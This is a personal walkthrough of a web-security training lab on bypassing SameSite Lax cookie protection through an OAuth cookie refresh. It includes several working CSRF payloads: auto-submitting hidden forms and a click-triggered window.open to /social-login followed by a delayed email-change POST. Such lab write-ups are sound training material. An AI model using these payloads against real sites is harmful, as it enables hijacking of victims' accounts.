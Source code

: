 Title: SameSite Lax bypass via cookie refresh
Level: PRACTITIONER
Desc:  This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.
The lab supports OAuth-based login. You can log in via your social media account with the following credentials: wiener:peter 

# Theory:
Cookies with Lax SameSite restrictions aren't normally sent in any cross-site POST requests, but there are some exceptions.
As mentioned earlier, if a website doesn't include a SameSite attribute when setting a cookie, Chrome automatically applies Lax restrictions by default. However, to avoid breaking single sign-on (SSO) mechanisms, it doesn't actually enforce these restrictions for the first 120 seconds on top-level POST requests. As a result, there is a two-minute window in which users may be susceptible to cross-site attacks.

# Walkthrough:
I found the request to renew session cookie any time the request is sended.
<img width="1289" height="602" alt="image" src="https://github.com/user-attachments/assets/f343408c-aad2-4825-9295-7e7dbe00ae0c" />

<img width="1263" height="374" alt="image" src="https://github.com/user-attachments/assets/03a12f56-9ce6-4c6c-a74a-73a7000d8fe7" />

`https://oauth-0a2000c0038f840a80bc1048028e0074.oauth-server.net/auth?client_id=nbltetywifula03tgx022&redirect_uri=https://0a8b0073037e84fd80c11248002f0049.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email`

Now I have to craft exploit where:
1. I send Oauth request
2. Send POST request to change email

GET request is blocked:
<img width="984" height="461" alt="image" src="https://github.com/user-attachments/assets/babb7465-e838-4052-bb21-3c06f5ab2b8b" />

```
<script>
    document.location = "https://oauth-0a2000c0038f840a80bc1048028e0074.oauth-server.net/auth?client_id=nbltetywifula03tgx022&redirect_uri=https://0a8b0073037e84fd80c11248002f0049.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email
";
</script>
<form method="POST" action="https://0a8b0073037e84fd80c11248002f0049.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="tes21@normal-user.net">
</form>
<script>
    document.forms[0].submit();
</script>
```

It didn't work on a victim, let's check out solution.

First step in solution is to craft exploit which works during 2minutes period after login of victim and doesn't work in other scenario.

Script like following works:
```
</script>
<form method="POST" action="https://0a19006504178dbb80bd999900580085.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="tes23@normal-user.net">
</form>
<script>
    document.forms[0].submit();
</script>
```
But we need to craft something that works even after 2 minutes after login.

Request to /social-login starts full oauth flow and renew cookie.

Now I crafted new exploit to first make request to social-login, then after timeout make request to change email. Request to social-login must be in function window.open()
```
<form method="POST" action="https://0a19006504178dbb80bd999900580085.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="tes25@normal-user.net">
</form>
<script>
    window.open('https://0a19006504178dbb80bd999900580085.web-security-academy.net/social-login');
    setTimeout(changeEmail, 5000);

    function changeEmail(){
        document.forms[0].submit();
    }
</script>
```
The initial request gets blocked by the browser's popup blocker.
Observe that, after a pause, the CSRF attack is still launched. However, this is only successful if it has been less than two minutes since your cookie was set. If not, the attack fails because the popup blocker prevents the forced cookie refresh.

Realize that the popup is being blocked because you haven't manually interacted with the page. 

Change exploit to make vitim click on the page and initiate request to open new tab.
```
<form method="POST" action="https://0a19006504178dbb80bd999900580085.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="tes25@normal-user.net">
</form>
<p>Click anywhere on the page</p>
<script>
window.onclick = () => {
    window.open('https://0a19006504178dbb80bd999900580085.web-security-academy.net/social-login');
    setTimeout(changeEmail, 5000);
}
    function changeEmail(){
        document.forms[0].submit();
    }
</script>
```
It is working!





